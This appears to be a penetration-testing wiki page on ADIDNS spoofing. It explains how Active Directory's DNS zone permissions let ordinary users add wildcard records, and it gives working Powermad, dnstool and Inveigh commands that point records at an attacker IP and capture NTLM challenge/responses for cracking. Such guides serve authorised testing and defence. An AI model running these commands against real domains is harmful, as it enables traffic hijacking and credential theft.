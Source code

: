 # ADIDNS spoofing

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services \(AD-DS\) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS \(ADIDNS\).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL \(Discretionary Access Control List\) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** \(a DNS specific protocol used by machine accounts to add and update their own DNS records\). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different \(A, AAAA, CNAME, MX, and so on\).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be \(only if the record doesn't already exist, which is the case by default\).

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. \([source](https://blog.netspi.com/exploiting-adidns/#wildcard)\)

## Practice

### \(Windows\) Manual record manipulation

On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add/view/edit/enable/disable/remove records. In the following examples, the wildcard \(`*`\) record is targeted but the examples should also work with other records \(except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)\).

{% tabs %}
{% tab title="Get/Read" %}
The following command can be used to get the value populated in the DNSRecord attribute of a node.

```bash
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord
```
{% endtab %}

{% tab title="Add" %}
The following command creates a wildcard record, sets the `DNSRecord` attribute and sets the `DNSTombstoned` attribute, allowing any authenticated user to perform modifications to the node \(this helps maintain control of the node, even when the owner accounts gets deleted. Pretty useful after a pentest\).

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endtab %}

{% tab title="Set/Edit" %}
The `Set-ADIDNSNodeAttribute` function can be used to append, populate, or overwrite values in a DNS node attribute. In this case, the command below can be used to set/overwrite the record's value.

```bash
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose
```
{% endtab %}

{% tab title="Enable" %}
A tombstoned record can be turned again into a valid record with the following command. This should be used in place of `New-ADIDNSNode` when working with nodes that already exist due to being previously added.

```bash
Enable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Disable" %}
A record can be disabled \(i.e. tombstoned\) with the following command. This means the record will still exist but will not be used when resolving names.

```bash
Disable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Remove" %}
The following command can be used to fully remove a record.

```bash
Remove-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Check/Resolve" %}
While `ping` can absolutely be used for the job, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to resolve names \(all DNS spoofing attacks need to be stopped in order to avoid false results\).

```bash
Resolve-DnsName NameThatDoesntExist
```

That command will either return an IP address, indicating that the wildcard record exists \(or that `NameThatDoesntExist` is an actual explicit record\), or return an error stating that the DNS name doesn't exist, indicating that the wildcard record doesn't exist.
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**TL; DR**: the following command will add a new wildcard record \(if it doesn't already exist\) with the attacker IP set in the DNSRecord attribute

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endhint %}

{% hint style="warning" %}
**Warning**: in some environments, the disabling or removal of the records previously created for tests failed. The records were shown as tombstoned or nonexistant when using functions like `Get-ADIDNSNodeOwner`, `Get-ADIDNSNodeAttribute`, and so on. However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind when abusing ADIDNS.
{% endhint %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).

### \(UNIX\) Manual record manipulation

An awesome Python alternative to Powermad's functions is [dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py). Theoretically, this script can be used to `add`, `modify`, `query`, `remove`, `resurrect` and `ldapdelete` records in ADIDNS.

```bash
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController
```

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` \(to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)\)

```text
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## References

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html\#spoofing-active-directory-integrated-dns" %}



